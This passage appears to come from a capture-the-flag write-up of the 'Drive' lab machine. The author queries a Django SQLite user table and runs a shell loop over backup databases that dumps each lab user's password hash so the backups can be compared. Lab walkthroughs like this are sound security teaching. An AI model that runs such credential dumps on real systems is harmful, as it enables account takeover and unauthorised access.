 Most interesting is the `accounts_customuser` table, which has hashes for users that match up nicely with some local accounts on Drive:

```

sqlite> select * from accounts_customuser;
21|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a|2022-12-26 05:48:27.497873|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04
22|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f|2022-12-24 12:55:10|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02
23|sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004|2022-12-24 13:17:45|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
24|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f|2022-12-24 16:51:53|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15
30|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3|2022-12-26 05:43:40.388717|1|admin|||admin@drive.htb|1|1|2022-12-26 05:30:58.003372

```

There are tables with group names and how they tie to files, but nothing too interesting.

#### Differences

One place that I see differences is the `myApp_file` table, as the older backups don’t have as many messages. Still, there’s nothing I haven’t seen before.

Another place to look for differences is in the `accounts_customuser` table. I’ll loop over each and dump the hashes:

```

martin@drive:/dev/shm$ ls | while read db; do echo "$db"; sqlite3 "$db" 'select username,password from accounts_customuser;'; done
db.sqlite3
jamesMason|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
martinCruz|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
tomHands|sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004
crisDisel|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
admin|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
dec.sqlite3
admin|pbkdf2_sha256$390000$ZjZj164ssfwWg7UcR8q4kZ$KKbWkEQCpLzYd82QUBq65aA9j3+IkHI6KK9Ue8nZeFU=
jamesMason|pbkdf2_sha256$390000$npEvp7CFtZzEEVp9lqDJOO$So15//tmwvM9lEtQshaDv+mFMESNQKIKJ8vj/dP4WIo=
martinCruz|pbkdf2_sha256$390000$GRpDkOskh4irD53lwQmfAY$klDWUZ9G6k4KK4VJUdXqlHrSaWlRLOqxEvipIpI5NDM=
tomHands|pbkdf2_sha256$390000$wWT8yUbQnRlMVJwMAVHJjW$B98WdQOfutEZ8lHUcGeo3nR326QCQjwZ9lKhfk9gtro=
crisDisel|pbkdf2_sha256$390000$TBrOKpDIumk7FP0m0FosWa$t2wHR09YbXbB0pKzIVIn9Y3jlI3pzH0/jjXK0RDcP6U=
nov.sqlite3
jamesMason|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
martinCruz|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
tomHands|sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a
crisDisel|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
admin|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
oct.sqlite3
jamesMason|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
martinCruz|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
tomHands|sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141
crisDisel|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
admin|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
sep.sqlite3
jamesMason|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
martinCruz|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
tomHands|sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93
crisDisel|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
admin|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3

```

